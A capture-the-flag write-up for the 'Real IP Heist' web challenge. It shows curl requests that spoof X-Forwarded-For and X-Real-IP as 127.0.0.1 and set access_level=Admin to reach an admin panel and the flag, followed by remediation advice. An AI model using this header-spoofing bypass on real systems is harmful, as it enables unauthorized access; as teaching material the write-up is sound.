 ```yaml
---
title: "🔓 Real IP Heist"
layout: post
collection: writeups
permalink: /writeups/safaricom-real-ip-heist/
date: 2025-10-04
categories: ["Writeups", "Safaricom PwnZone"]
tags: [web, headers, pwnzone]
image: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
thumbnail: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
icon: fas fa-network-wired
excerpt: "Abused trust in X-Forwarded-For / X-Real-IP headers to escalate access and retrieve the flag."
description: "Exploit of server trusting client-supplied X-Forwarded-For/X-Real-IP headers, obtaining Admin access and the flag."
---
```


![Real IP Heist Screenshot](/assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg)

# Real IP Heist — Challenge Writeup

## Challenge Overview

* **Challenge Name:** Real IP Heist
* **Target URL:** `http://54.72.82.22:8085`
* **Description:** "Ever wonder what your network really reveals about you. Not everything is as anonymous as it seems..."

---

## Step-by-Step Solution

### 1. Initial Reconnaissance

Visited the target URL in a browser. The page displayed a simple login form with:

* Username (free text input)
* Access Level (dropdown with only "User" available)
* Login button

![Login Form Screenshot](/assets/images/writeups/real-ip-heist/TargetIP.png)

### 2. Analyzing Client-Side Restrictions

Inspected the page source and network activity using browser developer tools. Discovered that client-side JavaScript was setting a fixed `X-Forwarded-For` header, limiting users to "User" access level regardless of input.

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/View-Page-Source.png)

![Source Code Screenshot](/assets/images/writeups/real-ip-heist/Source-code.png)

### 3. Bypassing Client-Side Restrictions

The server appeared to trust HTTP headers for IP verification. I bypassed client-side restrictions using `curl` to send custom requests with spoofed headers.

### 4. First curl Request — Gaining Admin Access

Crafted a `curl` command to:

* Send a POST request to the login endpoint
* Override the `X-Forwarded-For` header to simulate an internal IP (`127.0.0.1`)
* Set the `access_level` parameter to `Admin` directly in POST data

```bash
curl -X POST 'http://54.72.82.22:8085/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  --data 'username=attacker&access_level=Admin'
```

**Response:**

```html
<h2>Hello, attacker</h2>
<!-- real admin use internal tools -->
<p>Access level: Admin</p>
<p><a href="/admin">Go to admin panel</a></p>
```

### 5. Second curl Request — Accessing Admin Panel

The response revealed an `/admin` endpoint. Sent another request with both spoofed headers:

```bash
curl -X GET 'http://54.72.82.22:8085/admin' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  -H 'X-Real-IP: 127.0.0.1'
```

**Response:**

```html
<h3>Welcome, admin!</h3>
<p>Flag: safctf{c0f1ec1fccb2de4a03031037251f21a7}</p>
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Curl.png)

## Vulnerability Analysis

**Critical Security Flaw:** The application trusted client-supplied headers for authentication decisions.

**Specific Issues:**

* Server used `X-Forwarded-For` and `X-Real-IP` headers to verify internal/trusted IPs.
* Spoofing headers to `127.0.0.1` bypassed access controls.
* `access_level` parameter was vulnerable to direct manipulation.
* Client-side restrictions provided a false sense of security.

## Flag

```
safctf{c0f1ec1fccb2de4a03031037251f21a7}
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Flag.png)

## Key Takeaways

* Never trust client-supplied headers for security decisions.
* Client-side restrictions are easily bypassed and should not be relied upon for access control.
* Always validate authentication and authorization on the server side.
* IP-based authentication can be vulnerable to header injection attacks.
* Security through obscurity (hidden admin endpoints) is not effective protection.

## Remediation Recommendations (brief)

1. Do not rely on `X-Forwarded-For` or other client-controllable headers for trust decisions. Implement server-side checks using trusted sources (e.g., internal firewall, verified reverse proxy that strips/sets these headers).
2. Validate and enforce `access_level` server-side; do not accept privilege escalation via POST parameters.
3. Implement proper authentication/authorization controls (session tokens, role checks) that cannot be manipulated from the client.
4. Harden server by ensuring only trusted proxies can set forwarding headers and by validating the source ASN/IP ranges where appropriate.
5. Log and monitor suspicious header manipulations and failed attempts.

---

## Notes

* All testing described above was performed in the context of the CTF challenge as provided by the target URL.

